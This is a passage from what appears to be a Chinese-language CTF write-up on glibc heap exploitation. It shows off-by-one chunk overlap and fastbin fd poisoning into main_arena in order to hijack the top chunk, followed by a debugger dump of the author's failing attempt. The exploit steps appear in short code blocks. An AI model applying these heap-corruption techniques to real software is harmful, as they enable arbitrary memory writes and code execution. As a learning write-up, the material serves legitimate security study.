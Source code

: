 ```
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
下面再次构造overlap, 同前面的一样。
```
alloc(0x58)#5
alloc(0x58)#6
alloc(0x58)#7
alloc(0x58)#8
update(5,0x59,'A'*0x58+'\xc1')
delete(6)
alloc(0x58)#6
alloc(0x58)#9=7
```
然后free chunk7，再使用chunk9 修改chunk7的fd到main_arena这里：
```
delete(7)
update(9,0x8,p64(libc_base+dest_offset))
alloc(0x58)#7  ;先malloc一次
alloc(0x58)#10 再malloc一次得到目标chunk。
```
如图：
```
RAX  0x7ffff7dd1b48 (main_arena+40) ◂— 0x0
```
malloc 后rax=0x7ffff7dd1b48，成功得到目标chunk
然后修改top chunk。
到这里就出现问题，得到目标chunk后不知道为什么，unsorted bin 被初始化为0了。这样unsorted bin就corrupt了。在后面修改topchunk后申请chunk，就会报错：
```
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 RAX  0x7fffffffdc8f ◂— 0x7ffff7dd378000
 RBX  0x7ffff7dd1b20 (main_arena) ◂— 0x1
 RCX  0x7c
 RDX  0x7ffff7dd1b48 (main_arena+40) ◂— 0x0
 RDI  0x7fffffffdc90 —▸ 0x7ffff7dd3780 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x7ffff7dd1b40 (main_arena+32) ◂— 0x61 /* 'a' */
 R8   0x0
 R9   0x1999999999999999
 R10  0x0
 R11  0x7ffff7b845e0 (_nl_C_LC_CTYPE_class+256) ◂— add    al, byte ptr [rax]
 R12  0x7ffff7dd1b78 (main_arena+88) —▸ 0x7ffff7dd1b00 (__memalign_hook) —▸ 0x7ffff7a92e20 (memalign_hook_ini) ◂— push   r12
 R13  0x0
 R14  0x2710
 R15  0x7ffff7dd1bc8 (main_arena+168) —▸ 0x7ffff7dd1bb8 (main_arena+152) —▸ 0x7ffff7dd1ba8 (main_arena+136) —▸ 0x7ffff7dd1b98 (main_arena+120) ◂— 0x0
 RBP  0x60
 RSP  0x7fffffffdc10 ◂— 0x555500000006
 RIP  0x7ffff7a8edd4 (_int_malloc+596) ◂— mov    rsi, qword ptr [r13 + 8]
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x7ffff7a8edd4 <_int_malloc+596>     mov    rsi, qword ptr [r13 + 8] <0x7ffff7dd1b40>
   0x7ffff7a8edd8 <_int_malloc+600>     mov    r15, qword ptr [r13 + 0x18]
   0x7ffff7a8eddc <_int_malloc+604>     cmp    rsi, 0x10
   0x7ffff7a8ede0 <_int_malloc+608>     jbe    _int_malloc+960 <0x7ffff7a8ef40>
    ↓
   0x7ffff7a8ef40 <_int_malloc+960>     mov    r10d, dword ptr [rip + 0x342209] <0x7ffff7dd1150>
   0x7ffff7a8ef47 <_int_malloc+967>     or     dword ptr [rbx + 4], 4
   0x7ffff7a8ef4b <_int_malloc+971>     mov    eax, r10d
   0x7ffff7a8ef4e <_int_malloc+974>     and    eax, 5
   0x7ffff7a8ef51 <_int_malloc+977>     cmp    eax, 5
   0x7ffff7a8ef54 <_int_malloc+980>     je     _int_malloc+2157 <0x7ffff7a8f3ed>
    ↓
   0x7ffff7a8f3ed <_int_malloc+2157>    mov    edi, r10d
```